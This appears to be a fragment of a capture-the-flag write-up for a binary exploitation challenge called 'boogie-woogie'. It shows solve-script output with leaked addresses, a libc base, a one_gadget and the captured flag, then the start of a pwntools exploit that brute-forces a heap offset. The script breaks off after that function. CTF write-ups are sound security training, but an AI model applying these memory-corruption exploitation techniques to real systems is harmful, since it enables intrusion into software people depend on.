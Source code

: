 gg fun challenge :)

```
❯ python3 solve.py
[+] Bruting: Done
[*] __dso_handle = 0x55d54865f008
[*] program base = 0x55d548650000
[*] offset to a heap page = 0x1995000
[*] offset to heap base = 0x1986fe0
[*] libc.address = 0x7f89e407e000
[*] stack address (main saved ret) = 0x7ffc792a8688
[*] one_gadget = 0x7f89e4169c88
[+] Receiving all data: Done (9B)
[*] Closed connection to localhost port 5000
b' dice{i7_S33MS_sOm3BODY_cOOK3D_h3r3_8ff4c343}\r\n'
```

```python
#!/usr/bin/env python3

from pwn import *

e = ELF("boogie-woogie")
libc = ELF("./libc.so.6")
context.terminal = ["zellij", "action", "new-pane", "-d", "right", "-c", "--", "zsh", "-c"]
context.binary = e


@context.quietfunc
def conn():
    if args.LOCAL:
        r = process([e.path])
    elif args.GDB:
        r = gdb.debug([e.path])
    else:
        r = remote("localhost", 5000)

    return r


def main():
    def brute_heap_offset():
        idx = 0
        with log.progress('Bruting') as p:
            while True:
                try:
                    idx += 1
                    p.status("attempt %i", idx)
                    r = conn()
                    r.recvuntil(b"exception")
                    trial_heap_offset = 0x1995fe0
                    # trial_heap_offset = 0x1000 # lol testing without aslr
                    
                    r.sendline(f"1 {trial_heap_offset}".encode())
                    
                    r.recvuntil(b"exception")
                    r.sendline(f"1 {trial_heap_offset}".encode())
                    p.success()
                    return (r, trial_heap_offset >> 12 << 12)
                except EOFError:
                    with context.local(log_level='error'): r.close()


    r, heap_page = brute_heap_offset()

```

[heap]: 0x0000555555564ac0  ->  0x00007ffff7faace0  ->  0x0000555555585000  ->  0x0000000000000000
[heap]: 0x0000555555564ac8  ->  0x00007ffff7faace0  ->  0x0000555555585000  ->  0x0000000000000000